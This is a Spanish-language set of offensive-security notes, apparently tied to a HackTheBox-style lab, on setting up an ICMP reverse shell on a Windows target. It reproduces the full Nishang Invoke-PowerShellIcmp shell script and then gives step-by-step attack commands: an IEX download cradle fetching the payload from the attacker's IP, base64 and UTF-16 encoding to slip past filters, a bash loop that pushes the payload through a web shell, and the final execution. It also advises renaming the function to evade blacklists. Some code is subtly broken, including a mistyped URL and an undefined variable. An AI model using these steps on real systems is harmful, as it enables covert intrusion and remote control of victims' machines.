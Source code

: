 -----
- Tags: #teoria #practica #explotación
-----
# ICMP
### El **Internet Control Message Protocolo** es parte del conjunto de protocolos IP. Es utilizado para enviar mensjes de error e información operativa indicando, por ejemplo, que un host no puede ser localizado o que un servicio se ha solicitao no está disponible.

-----
# Abuso 

### La técnica **ICMP Reverse Shell** es utilizada para establecer una conexión inversa a través del protocolo ICMP desede una máquina comprometida a una máquina atacante. Esta técnica puede ser utilizada para evadir detecciones de seguridad y firewalls, ya que el tráfico ICMP a menudo se permite en muchas redes.

### En este caso, podríamos usar el repositorio de [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1) en donde se comparten scripts como **PowerShellIcmp.ps1**.

```powershell
function Invoke-PowerShellIcmp
{        
    [CmdletBinding()] Param(

        [Parameter(Position = 0, Mandatory = $true)]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $false)]
        [Int]
        $Delay = 5,

        [Parameter(Position = 2, Mandatory = $false)]
        [Int]
        $BufferSize = 128

    )

    $ICMPClient = New-Object System.Net.NetworkInformation.Ping
    $PingOptions = New-Object System.Net.NetworkInformation.PingOptionsInvoke-PowerShellIcmp
    $PingOptions.DontFragment = $True

    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null

    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '> ')
    $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null

    while ($true)
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes('')
        $reply = $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions)
        
        if ($reply.Buffer)
        {
            $response = ([text.encoding]::ASCII).GetString($reply.Buffer)
            $result = (Invoke-Expression -Command $response 2>&1 | Out-String )
            $sendbytes = ([text.encoding]::ASCII).GetBytes($result)
            $index = [math]::floor($sendbytes.length/$BufferSize)
            $i = 0

            if ($sendbytes.length -gt $BufferSize)
            {
                while ($i -lt $index )
                {
                    $sendbytes2 = $sendbytes[($i*$BufferSize)..(($i+1)*$BufferSize-1)]
                    $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes2, $PingOptions) | Out-Null
                    $i +=1
                }
                $remainingindex = $sendbytes.Length % $BufferSize
                if ($remainingindex -ne 0)
                {
                    $sendbytes2 = $sendbytes[($i*$BufferSize)..($sendbytes.Length)]
                    $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes2, $PingOptions) | Out-Null
                }
            }
            else
            {
                $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes, $PingOptions) | Out-Null
            }
            $sendbytes = ([text.encoding]::ASCII).GetBytes("`nPS " + (Get-Location).Path + '> ')
            $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null
        }
        else
        {
            Start-Sleep -Seconds $Delay
        }
    }
}
```
### De este script podríamos eliminar todos los comentarios e invocar el mismo al final, agregando la línea `Invoke-PowerShellIcmp -IPAddress {our_ip}`. Puede ser interesante de cara a evitar posibles **black_lists** o **configuraciones de firewall** cambiar el nombre a la función.

### Una vez descargado el script, deberiamos ejecutar dos procesos específicos.

### **1.** Configurar el sistema para que ignore todas las solicitudes de eco ICMP entrantes, lo que es equivalente a desactivar la respuesta a los pings. Esto puede utilizarse como una medida de seguridad para evitar que otros equipos realicen ping al sistema.

```bash
sudo sysctl -w net.ipv4.icmp_echo_ignore_all=1
```
### **2.** Descargar el script [icmpsh_m.py](https://github.com/bdamele/icmpsh/blob/master/icmpsh_m.py) y ejecutarlo con las indicaciones dadas. El mismo implementa el shell inverso a través del protocolo ICMP.

```bash
sudo python icmpsh_m.py {our_ip} {target_ip}
```
### En caso de que no podamos subir a la máquina víctima el mismo con   `IEX(New-Object Net.WebClient).downloadString('hgttp://{our_ip}/icmp_PowerShellIcmp.ps1')` podríamos intentar aplicar el concepto de `echo 'line to add' > C:\Temp\file` para línea por línea intentar cargar este script en un path determinado del sistema. 

### Para realizar esto es importante quitar todos los saltos de línea del script.

```bash
cat PowerShellIcmp.ps1 | sed '/^\s*$/d' | sponge PowerShellIcmp.ps1
# El \s es equivalente al espacio, por lo que se indica eliminar todo lo que empiece (^) con un espacio (\s) y acabe ($) con nada serán eliminadas (/d)
```
### Una vez eliminados los espacios, hay que tener en cuenta que los carácteres especiales sean un problema, por lo que es buena idea empezar a pensar en **base64**, aunque PowerShell no lo interpretará de manera correcta debido a los caracteres y el formato de codificación de los archivos de script.

### Por lo que habría que cambiar con la herramienta **iconv** el formato de codificación del archivo a UTF-16, ya que es la manera en la que powershell espera leerlo.

```bash
cat PowerShellIcmp.ps1 | iconv -t utf-16le | base64 -w 0; echo > icmp_base64.ps1
```
### De esta manera ahora tendríamos en poder un archivo con todo el script a cargar en el sistema víctima en el formato correcto y en base64.

### Si tuvieramos que subir este archivo a la máquina victima y no tendríamos conectividad por TCP por **Firewalls**, sería importante tener en cuenta que no podríamos hacerlo de una única vez debido a que el comando **curl** o mismo el navegador tienen un limite, por lo que es buena idea emitir este por partes. Para realizar esto podemos hacer uso de la herramienta **fold** (Herramienta utilizada para dar formato y ajustar el ancho de las líneas de un archivo o texto). 

```bash
fold icmp_base64.ps1 | sponge icmp_base64.ps1
```

### Una vez que tengamos el contenido de manerar óptima, quedaría subir el archivo. Por lo que podríamos crearnos un script en bash o python.

```bash
#!/bin/bash

function ctrl_c(){
	echo -e "\n\n\t[!] Quiting...\n\n"
	tput cnorm; exit 1
}

declare -r url="http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx"

counter=0

echo; tput civis; for line in $(cat icmp.ps1.b64); do
	command="echo+$line+>>+C:\Temp\icmp_cmd.ps1"
	echo -ne "[+] Line $counter sended [$counter/87]\r"
	curl -s -X GET "$url?xcmd=$command" &>/dev/null
	let counter+=1
done; tput cnorm
```
### Una vez subido el archivo, el problema al cual nos enfrentamos es que tenemos toda la fución de PowerShell en base64, por lo que habría que decodearlo. Para hacer esto podríamos hacer uso de herramientas como **pwsh** las cuales nos brindan un entorno de prueba de PowerShell.

```powershell
powershell $functionb64 = Get-Content C:\Temp\icmp_cmd.ps1
# Guardar en la varibale functionb64 el contenido alojado en el archivo C:\Temp\icmp_cmd.ps1

powershell $decodeFunction = [System.Text.Encoding]::Unicode.getString([System.Convert]::FromBase64String($file64))
# Decodear de base64 el contenido de la función.

powershell $decodeFunction > C:\Temp\final_icmp_cmd.ps1
# Guardar la función decodeada en un nuevo archivo C:\Temp\final_icmp_cmd.ps1

powershell $functionb64 = Get-Content C:\Temp\icmp_cmd.ps1; $decodeFunction = [System.Text.Encoding]::Unicode.getString([System.Convert]::FromBase64String($file64)); $decodeFunction > C:\Temp\final_icmp_cmd.ps1
```
### Como último, solo quedaría ejecutar el script final **powershell C:\Temp\final_icmp_cmd.ps1** y recibir la conexión. 
